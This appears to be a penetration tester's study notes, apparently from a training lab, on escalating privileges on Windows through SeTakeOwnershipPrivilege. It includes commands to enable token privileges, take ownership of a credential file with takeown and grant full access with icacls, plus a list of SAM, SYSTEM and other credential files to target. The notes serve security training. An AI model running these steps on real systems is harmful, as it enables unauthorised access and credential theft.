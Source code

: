 ### Exploitation
```powershell
Privilege Name                           Description 
======================================== =================================
SeTakeOwnershipPrivilege                 Take ownership of files or other objects
```

##### Files of interest
```powershell
c:\inetpub\wwwwroot\web.config
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software, %WINDIR%\repair\security
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
```
We may also come across `.kdbx` KeePass database files, OneNote notebooks, files such as `passwords.*`, `pass.*`, `creds.*`, scripts, other configuration files, virtual hard drive files, and more that we can target to extract sensitive information from to elevate our privileges and further our access.

[Enable privileges](https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1)
```powershell
Import-Module .\EnableAllTokenPrivs.ps1
.\EnableAllTokenPrivs.ps1
whoami /priv
```

Choose a target file and check permissions
```powershell
gci -Path 'C:\Department Shares\Private\IT\cred.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}
```

> [!NOTE] Note
>  Take great care when performing a potentially destructive action like changing file ownership, as it could cause an application to stop working or disrupt user(s) of the target object. Changing the ownership of an important file, such as a live web.config file, is not something we would do without consent from our client first. Furthermore, changing ownership of a file buried down several subdirectories (while changing each subdirectory permission on the way down) may be difficult to revert and should be avoided.

If see that the owner is not shown, meaning that we likely do not have enough permissions over the object to view those details. We can back up a bit and check out the owner of the IT directory.

```powershell
PS C:\htb> cmd /c dir /q 'C:\Department Shares\Private\IT'

 Volume in drive C has no label.
 Volume Serial Number is 0C92-675B
 
 Directory of C:\Department Shares\Private\IT
 
06/18/2021  12:22 PM    <DIR>          WINLPE-SRV01\sccm_svc  .
06/18/2021  12:22 PM    <DIR>          WINLPE-SRV01\sccm_svc  ..
06/18/2021  12:23 PM                36 ...                    cred.txt
               1 File(s)             36 bytes
               2 Dir(s)  17,079,754,752 bytes free
```

Take ownership of the file with `takeown`
```powershell
takeown /f 'C:\Department Shares\Private\IT\cred.txt'
```

Confirm ownership
```powershell
gci -Path 'C:\Department Shares\Private\IT\cred.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}
```

Modify ACL to allow full Read/Write access to the file
```powershell
icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F
```
### Overview
[SeTakeOwnershipPrivilege](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/take-ownership-of-files-or-other-objects) grants a user the ability to take ownership of any "securable object," meaning Active Directory objects, NTFS files/folders, printers, registry keys, services, and processes. This privilege assigns [WRITE_OWNER](https://docs.microsoft.com/en-us/windows/win32/secauthz/standard-access-rights) rights over an object, meaning the user can change the owner within the object's security descriptor. Administrators are assigned this privilege by default. While it is rare to encounter a standard user account with this privilege, we may encounter a service account that, for example, is tasked with running backup jobs and VSS snapshots assigned this privilege. It may also be assigned a few others such as `SeBackupPrivilege`, `SeRestorePrivilege`, and `SeSecurityPrivilege` to control this account's privileges at a more granular level and not granting the account full local admin rights. These privileges on their own could likely be used to escalate privileges. Still, there may be times when we need to take ownership of specific files because other methods are blocked, or otherwise, do not work as expected. Abusing this privilege is a bit of an edge case. Still, it is worth understanding in-depth, especially since we may also find ourselves in a scenario in an Active Directory environment where we can assign this right to a specific user that we can control and leverage it to read a sensitive file on a file share.

![image](https://academy.hackthebox.com/storage/modules/67/change_owner.png)

The setting can be set in Group Policy under:

- `Computer Configuration` ⇾ `Windows Settings` ⇾ `Security Settings` ⇾ `Local Policies` ⇾ `User Rights Assignment`

![image](https://academy.hackthebox.com/storage/modules/67/setakeowner2.png)

With this privilege, a user could take ownership of any file or object and make changes that could involve access to sensitive data, `Remote Code Execution` (`RCE`) or `Denial-of-Service` (DOS).

Suppose we encounter a user with this privilege or assign it to them through an attack such as GPO abuse using [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse). In that case, we could use this privilege to potentially take control of a shared folder or sensitive files such as a document containing passwords or an SSH key.